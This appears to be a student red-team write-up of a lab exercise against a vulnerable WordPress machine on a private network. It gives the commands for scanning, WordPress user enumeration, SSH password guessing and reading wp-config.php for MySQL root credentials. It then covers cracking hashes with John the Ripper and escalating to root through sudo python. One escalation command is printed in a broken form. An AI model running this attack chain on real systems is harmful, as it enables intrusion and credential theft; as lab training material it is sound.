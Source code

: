# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

_netdiscover shows the ip addresses of targets and active machines in the network._

```bash
root@Kali:~\# netdiscover -r 192.168.1.255/16
```

![](Images/Target_1/netdiscover_-r_192_168_1_255_16.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
root@Kali:~\# nmap -sV 192.168.1.110
```

![](Images/Target_1/nmap_-sV_192_168_1_110.png)
![](Images/Target_1/nmap_-sV_192_168_1_0_24.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - _Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4_ 
  - _Port 80/tcp open Apache httpd 2.4.10 ((Debian))_
  - _Port 111/tcp open rpcbind 2-4 (RPC #100000)_
  - _Port 139/tcp open netbios-ssn Samba smdb 3.X - 4.X (workgroup: WORKGROUP)_
  - _Port 445/tcp open netbios-ssn Samba smdb 3.X - 4.X (workgroup: WORKGROUP)_


The following vulnerabilities were identified on _**Target 1**_:
- _**Target 1**_
  - [CVE-2021-28041 OpenSSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)
  - [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

### Vulnerabilities

These were the vulnerabilities found on _**Target 1**_
  - _Network Mapping and User Enumeration using Wordpress site_
    - _Using nmap we were able to discover open ports on the network._
  - _Weak user passwords_
    - _Users had weak passwords which were easily guessed to **SSH** into the web server._
  - _Unsalted User Password hash on the Wordpress database._
    - _Using the **wpscan** command we were able to identify username information, this information was used to gain access to the web server._
  - _MySQL Data exfiltration_
    - _Gaining access to the MySQL database we were able to view various tables and databases from the wordpress site. By gaining access, this allowed us to view the hashes for certain users._
  - _Wrong configuration of User privs for privilege escalation._
    - _We noticed you were able to use **sudo** with **python** under steven's account, this then allowed us to escalate privs to root by running a python script._


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
  - _Enumerating the Wordpress users with `wpscan` allowed us to find michael's username which then was used to **SSH** into his user shell._
  - `wpscan --url http://192.168.1.110/wordpress -eu`

  ![](Images/Target_1/wpscan_--url_192_168_1_100_wordpress_-eu.png)
  ![](Images/Target_1/wpscan_users_target_1.png)

The folling screenshots show the website page visited with the _**Target 1**_ ip address.

  ![](Images/Target_1/port_80_192_168_1_110.png)
  ![](Images/Target_1/port_80_192_168_1_110_blog.png)

- Target 1
  - `flag1.txt`: _flag1{69bbcb33e11b80be759c4e844862482d}_
    - **Exploit Used**
      - _Viewing source code of the **service.html** page_
      - _ssh into michaels machine to view the `/var/www/service.html` file._
      - _The password was easily guessed which was **michael**_
      - _Commands used: `cd /var/www`, `nano service.html` and then `ctrl+w flag1`_

  ![](Images/Target_1/ssh_michael_machine.png)
  ![](Images/Target_1/flag_1_service_html.png)
  ![](Images/Target_1/michael_flag_1.png)

  - `flag2.txt`: _flag2{fc3fd58dcdad9ab23faca6e9a36e581c}_
    - **Exploit Used**
      - _ssh into michaels machine to view the `/var/www` directory_
      - _Commands used:_
        - `cd /var/www` 
        - `ls -lah`
        - `cat flag2.txt`

  ![](Images/Target_1/michael_flag_2.png)

  - `flag3.txt`: _flag3{afc01ab56b50591e7dccf93122770cd2}_
    - **Exploit Used**
      - _Within michael's shell, we searched for the **MySQL** database password._
      - _Upon finding the **MySQL** password and **User** information, we were then able to use this information to login and find `flag3` located within the **wp\_posts** table_
      - _Commands used:_
        - `cd /var/www/html/wordpress`
        - `ls`
        - `cat wp-config.php`

  ![](Images/Target_1/cat_wp_config_file_.png)
  ![](Images/Target_1/cat_wp_config_file_1.png)
  ![](Images/Target_1/cat_wp_config_file_2.png)

   - _The credential used to login to the **MySQL** database were:_      - _user: root_
      - _password: R@v3nSecurity_
      - _Command used:_
        - _`mysql -u root -pR@v3nSecurity`_
      - _Commands used to find flag3:_
        - `show databases;`
        - `use wordpress`
        - `show tables;`
        - `select * from wp_posts;`
        - `select user_pass from wp_posts`

  ![](Images/Target_1/mysql_login_show_databases.png)
  ![](Images/Target_1/mysql_databases_tables.png)
  ![](Images/Target_1/mysql_hashes.png)
  ![](Images/Target_1/flag_3.png)

  - `flag4.txt`: _flag4{715dea6c055b9fe3337544932f2941ce}_
    - **Exploit used**
      - _Used john the ripper to crack the hashes found in the **MySQL** database._
      - _Added hashes to a **wp\_hashes.txt** file_
      - _John found steve's password to be pink84._
      - _Commands used:_
        - `john --wordlist=/usr/share/wordlists/rockyou.txt wp_hashes.txt`
        - `john --show wp_hashes.txt`

  ![](Images/Target_1/john_cracked_steven_pass.png)

    - _After cracking steven;s password, we then used it to gain steven's shell._
    - _Commands used:_
      - `ssh steven@192.168.1.110`
      - _password: pink84_
      - _Escalating to root shell._
        - _Checking for sudo privliges._
        - `sudo -l`
        - _This showed that steven had sudo privliges for **/usr/bin/python**_

  ![](Images/Target_1/steven_sudo_privs.png)
    
    - _Upon revealing there was sudo privliges using python we found a script that would escalate privliges to root._
      - `sudo -c 'import pty;pty.spawn("/bin/bash")'`

  ![](Images/Target_1/sudo_python_script.png)
  
    - _Commands used to find flag4:_
      - `find / -name flag4.txt`
      - `cd /home/steven`
      - `ls`
      - `cat flag4.txt`

  ![](Images/Target_1/root_flag4.png)
